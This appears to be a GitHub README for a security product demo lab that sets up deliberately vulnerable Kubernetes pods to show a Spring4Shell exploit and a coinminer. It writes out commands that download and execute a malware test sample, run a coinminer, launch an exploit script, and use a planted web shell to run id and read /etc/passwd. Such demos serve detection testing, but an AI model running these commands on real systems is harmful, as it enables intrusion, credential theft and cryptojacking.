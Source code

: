 # Spring4Shell and Coinminer PoC

## This is for testing and demo purpose
### Setup the vulnerable environment on GKE (Google Kubernetes Engine)
Apply for the provided YAML file:
```sh
$ kubectl apply -f jie_xdr_for_cloud_demo.yaml
pod/jie-spring4shell-pod created
pod/vulmachine-pod created
service/jie-sprig4shell created
```
Once the the 2 pods and 1 services are created successfully, use the following command to check the STATUS:
```sh
$ kubectl get all
```
![WebPage](screenshots/getAll.png?raw=true)

Now, you have 2 vulnerable pods. One is for coinminer and another one is for Spring4Shell


### Use cases
#### Get the malware sample from Wildfire and execute it
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/sample
--2023-04-24 03:19:40--  http://wildfire.paloaltonetworks.com/publicapi/test/elf
Resolving wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)... 35.247.145.234
Connecting to wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)|35.247.145.234|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8608 (8.4K) [application/octet-stream]
Saving to: '/tmp/sample'

/tmp/sample                                100%[======================================================================================>]   8.41K  --.-KB/s    in 0s      

2023-04-24 03:19:40 (56.4 MB/s) - '/tmp/sample' saved [8608/8608]

root@vulmachine-pod:/# chmod +x /tmp/sample 
root@vulmachine-pod:/# ./tmp/sample
```

#### Execute the coinminer
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# ./tmp/coinminer
```

#### Exploit the Spring4Shell service
Check the output of the `kubectl get all` and find out the EXTERNAL-IP for your deployed service. Open your browser and connect to it.
![WebPage](screenshots/checkService.png?raw=true)

Once you see the above, you are good to exploit it.
```sh
$ python3 exploit.py --url "http://"your service external ip":8080/helloworld/greeting"
```
After above, websehll will be put on the server, you can use the following to execute the command to get id or /etc/passwd
```sh
$ http://"your service external ip":8080/webshell.jsp?cmd=id
$ http://"your service external ip":8080/webshell.jsp?cmd=cat%20/etc/passwd
$ http://"your service external ip":8080/webshell.jsp?cmd=whoami
```

## Credit
[@reznok](https://github.com/reznok/Spring4Shell-POC) for helping on building a spring4shell container image.
